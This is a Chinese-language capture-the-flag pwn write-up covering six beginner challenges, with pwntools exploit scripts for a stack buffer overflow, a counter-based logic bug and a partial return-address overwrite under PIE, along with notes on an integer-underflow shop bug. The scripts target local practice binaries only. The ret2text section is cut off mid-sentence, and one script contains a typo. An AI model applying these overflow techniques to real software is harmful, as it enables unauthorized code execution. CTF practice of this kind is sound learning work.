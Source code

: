 # buffer_overflow

![[Pasted image 20250115091055.png]]
反编译后可以看出当`local_62`与`ans`中的内容一样是就可以获取`flag`。
![[Pasted image 20250115091300.png]]
可以看到ans的内容
![[Pasted image 20250115091337.png]]
打开gdb调试可以看到`local_62`内内容的位置，构造`payload`将其覆盖为`ans`内容即可。
exp:
```python
from pwn import *

  

local = True

if local:

p = process("./buffer_overflow")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

payload = b'a' * 0x46 + b'Limiter and Wings are beautiful girls!'

p.send(payload)

p.interactive()
```
flag:
![[Pasted image 20250115091529.png]]
# game

![[Pasted image 20250115092751.png]]
反编译后可以看出当local_14累加到999后就可以获取shell。
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./game")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

num = 0

# p.recvuntil(b"Let's paly a game!")

while num<=999:

p.sendlineafter(b'pls input you num:', b'9')

num += 9

p.interactive()
```
flag:
![[Pasted image 20250115092855.png]]
# pie
开启了pie保护
![[Pasted image 20250115100232.png]]![[Pasted image 20250115100243.png]]
栈溢出仅能覆盖返回地址的一位，显然是将其覆盖为backdoor。
exp：
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./pie")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

pwnlib.gdb,attach(p)

payload = b'a' * 0x28 + b'd'

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250115100413.png]]
# real_login
![[Pasted image 20250115100541.png]]
当输入为password时获取shell
![[Pasted image 20250115100606.png]]
password如上
shell：
![[Pasted image 20250115100635.png]]
# ret2text
取名为ret2text则大概率有后门函数
![[Pasted image 20250116145056.png]]
you min
# shop
运行后发现是一个简单的商店程序。
反编译后发现程序都没有明显的漏洞。
![[Pasted image 20250115155103.png]]
根据提示会告知我们为整数漏洞。
那么最明显的就是让我们的钱变为负数来触发漏洞。
正常的购买都会判断钱是否足够再扣钱，但选项3则会无条件扣除50.
![[Pasted image 20250115155212.png]]
那么只需要让拥有的钱数少于50后触发选项3就能触发整数漏洞。
![[Pasted image 20250115155407.png]]
可以看到初始钱数为0x64即100。
获取shell：
![[Pasted image 20250115155516.png]]